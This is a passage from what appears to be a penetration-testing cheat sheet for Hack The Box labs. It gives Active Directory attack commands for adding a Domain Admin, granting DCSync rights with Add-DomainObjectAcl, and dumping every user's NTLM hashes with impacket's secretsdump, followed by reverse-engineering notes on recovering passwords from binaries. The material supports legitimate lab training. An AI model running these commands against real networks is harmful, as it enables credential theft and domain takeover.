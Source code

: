 		net user John password /add
		net group "Domain Admins" testuser /ADD /DOMAIN

- Create PS object for credentials and use it for the attack with Add-DomainObjectAcl

		$pass = convertto-securestring 'michoux' -AsPlainText -Force
		$cred = New-Object System.Management.Automation.PSCredential('HTB\mich', $pass)
		Add-DomainObjectAcl -Credential $cred -TargetIdentity 'DC=htb,DC=local' -PrincipalIdentity 'CN=mich,CN=users,DC=htb,DC=local' -Rights DCSync

- Use secretdump from impacket to expose the hashes

### Steal hashes from DC with IMPACKET - Secretdump.py (DC Sync)

Try to sync with the DC and get the hashes for every users. (need an account with the right permissions --> see bloodhound)

	./secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:password@10.10.10.175 -just-dc-ntlm

# Analyzing files / Reverse Engineering
## Extracting informations from `xls`, `doc` files with `OLETOOLS`.
[OLETOOLS(PYTHON)](https://github.com/decalage2/oletools)

Analyse xls, xlsm, doc and other files fron office ([Microsoft OLE2 files](http://en.wikipedia.org/wiki/Compound_File_Binary_Format))

	olevba.py file.xlsm

## Extract information from files with ExifTool 
https://github.com/exiftool/exiftool

- Extract metadata/properties from files (jpg, dll etc...)

		exiftool file

## To inspect `exe` files from linux with RADAR2
https://github.com/radareorg/radare2

## Analyzing DLL files with dnSPY (Commado Windows machine)

- Open dnSPY
- Open dll from the program
- Check for crypting functions.
- Get the keys and mode etc... to decrypt the password with an other tool
    - OR
    - Import the exe inside dnSPY and check where the  main script use the decrypt function.
    - Create a breakpoint (F9) and click on Start.
    - Put the db as arguments and copy/paste the db file into the current working folder.
    - Hit next and check the db for the password.
